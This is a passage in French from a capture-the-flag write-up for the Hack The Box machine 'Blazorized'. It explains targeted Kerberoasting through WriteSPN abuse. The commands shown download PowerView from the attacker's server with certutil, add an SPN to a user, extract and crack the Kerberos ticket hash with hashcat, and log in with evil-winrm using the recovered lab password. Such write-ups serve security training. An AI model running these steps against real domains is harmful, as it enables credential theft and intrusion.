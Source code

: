 > Les SPN sont des identifiants utilisés par Kerberos pour associer un service à un compte particulier au sein de l'Active Directory. Lorsqu'un client demande l'accès à un service (identifié par son SPN), il demande au contrôleur de domaine un ticket de service pour ce service. Pour notre attaque Kerberoast, nous demanderons un ticket de service pour le SPN spécifique que nous allons créer. Comme les tickets de service sont chiffrés avec le hachage NTLM du mot de passe du compte de service, après avoir obtenu ces tickets, nous pouvons essayer de craquer le hachage hors ligne afin de récupérer le mot de passe du compte de service.

![WriteSPN abuse](/images/HTB-Blazorized/WriteSPN_Abuse.png)

1. Transférez `PowerView.ps1` sur la cible.

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/PowerView.ps1 powerview.ps1
```

![PowerView file transfer](/images/HTB-Blazorized/powerview_transfer.png)

* Passez à un prompt PowerShell et importez le module PowerView à l'aide de la commande suivante

```
Import-Module ./powerview.ps1
```

2. Ajoutez un SPN arbitraire au compte de l'utilisateur `RSA_4810`.

```
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='darryl/kscorpio'}
```

3. Sollicitez un ticket Kerberos, recevez le hachage du mot de passe `RSA_4810` et craquez-le.

```
Get-DomainSPNTicket -SPN darryl/kscorpio 
```

> Vous devez supprimer tous les espaces blancs du hachage afin de l'utiliser.

![Targeted kerberoast attack](/images/HTB-Blazorized/targeted_kerberoasting.png)

Avec hashcat, nous récupérons le mot de passe `(Ni7856Do9854Ki05Ng0005 #)`.

```
hashcat -m 13100 -a 0 RSA4810_hash.txt /usr/share/wordlists/rockyou.txt
```

![RSA_4810 password](/images/HTB-Blazorized/RSA_4810_pwd.png)

Nous nous connectons sous le nom de `RSA_4810`.

```
evil-winrm -u RSA_4810 -p "(Ni7856Do9854Ki05Ng0005 #)" -i blazorized.htb
```

Ce compte ne semble pas avoir de fichiers intéressants. En plus de `Administrator`, le seul autre utilisateur présent dans `C:\Users` est `SSA_6010`, nous devons probablement changer d'utilisateur.

### Mouvement latéral (Shell en tant que SSA_6010)
